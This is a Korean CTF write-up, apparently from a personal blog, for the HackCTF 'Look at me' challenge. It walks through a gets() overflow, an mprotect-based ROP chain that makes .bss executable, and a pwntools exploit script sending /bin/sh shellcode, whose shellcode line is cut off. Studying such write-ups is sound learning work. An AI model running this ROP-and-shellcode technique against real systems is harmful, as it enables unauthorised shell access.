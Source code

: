 ```yaml
---
layout: post
title:  "HacCTF look at me write-up"
date:   2020-02-03 19:45:55
image:  hackctf_lookatme.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```




### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled.png)

PIE가 안걸려있다. 또한 이번 바이너리는 32bit이다.


<br>

**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled%201.png)

Hellooooo를 출력하고 입력할수 있는 공간이 나온다. 아무 문자나 입력하면 바로 종료가 되버린다. 이역시 바로 코드를 살펴보자.
<br><br><br>
**3) 코드 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled%202.png)

메인을 보면 내가 알수 있는 함수는 look_at_me 하나이다. 나머지는 확인을 해봐도 복잡하ㄱ....
<br><br>
look_at_me함수를 봐보자<br><br>

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled%203.png)

엄청 단순하다. gets함수를 입력받고 끝난다. ret주소까지 덮을수 있다. 혹시 플래그를 출력해주는 함수가 있는지 아이다에서 찾아보자.<br><br>

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled%204.png)

함수들이 굉장히 많은데, 그 이유는 해당 바이너리를 빌드시 라이브러리들을 동적으로 링킹해준것이 아닌, 정적으로 링킹을 해줬기 때문이다. 따라서 모든 라이브러리들이 다 보이는 것이다.<br><br>

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled%205.png)

file 명령어로 확인해보면 정적 링킹이 되있다는 사실을 확인 할 수 있다. 하지만 이 많은 라이브러리들 중에 system함수가 존재하지 않는다. 대신, mprotect 함수가 존재한다.

mprotect 함수는 원하는 코드영역의 권한을 변경할 수 있는 함수이다. 다행이 해당 함수가 링킹되어있어서 이를 이용하면 될 것이다.  참고로 mprotect 함수는 아래처럼 생겼는데

    mprotect(원하는 주소, 사이즈, 권한)

여기서 원하는 주소 → 이부분은 0x1000의 배수가 되야한다. mmap에서 메모리를 할당할때 해당 크기만큼 할당해주기 때문이라 한다.


<br><br><br>
### 2. 접근방법

---

스택 영역은 aslr 때문에 주소를 구하기가 귀찮음으로 .bss 영역을 이용하자. 왜냐하면 해당 영역은 aslr이 걸려있어도 주소가 고정으로 세팅되어있기 때문이다.

따라서 ROP를 이용하여 .bss 영역에 쉘코드를 삽입하여 실행시키는 루틴으로 작업하면 된다. 대충 흐름은 다음처럼 구성하면 된다.

    1. ebp까지 더미값 채우기
    
    2. ret에 gets함수 넣기
    
    3. ret + 4에 가젯 -> pop ret -> 0x08048433
    
    4. ret + 8에 bss 주소 넣기 -> 0x080eaf80
    
    5. ret + 12에 mprotect 함수 주소 넣기 -> 0x0806e0f0
    
    6. ret + 16에 가젯 -> pop pop pop ret -> 0x080483c8
    
    7. ret + 24에 7 -> 권한
    
    8. ret + 28에 3000 -> 사이즈
    
    9. ret + 32에 bss_start 주소 -> 0x080ea000
    
    10. ret + 36에 bss주소 -> 0x080eaf80

요렇게 말이다.
<br><br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled%206.png)

또한 참고로 mprotect 의 첫번째 인자인 주소가 0x1000의 배수가 되야 한다고 했으므로, .bss 시작주소를 인자로 주고 사이즈를 10000정도 크게 주면, 해당 범위 아무곳에 쉘코드를 집어넣으면 편하다


<br><br>
### 3. 풀이

---

최종 익스코드는 다음과 같다
```python
from pwn import *
context.log_level="DEBUG"
p=remote("ctf.j0n9hyun.xyz",3017)
#p=process("./lookatme",aslr=False)
#gdb.attach(p,""" b* 0x0804889E """)

gets_addr=p32(0x804f120)
pr=p32(0x08048433)
bss=p32(0x080eaf80)
mprotect_addr=p32(0x0806e0f0)
pppr = p32(0x0806f028)
rwx=p32(7)
size=p32(10000)
bss_start=p32(0x080ea000)

shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\$
payload = "A"*28
payload +=gets_addr
payload +=pr
payload +=bss
payload +=mprotect_addr
payload +=pppr
payload +=bss_start
payload +=size
payload +=rwx
payload +=bss

p.sendlineafter("Hellooooooooooooooooooooo\n",payload)

p.sendline(shellcode)

p.interactive()
```


<br><br><br>
### 4. 몰랐던 개념

---

- mprotect 함수를 이용한 ROP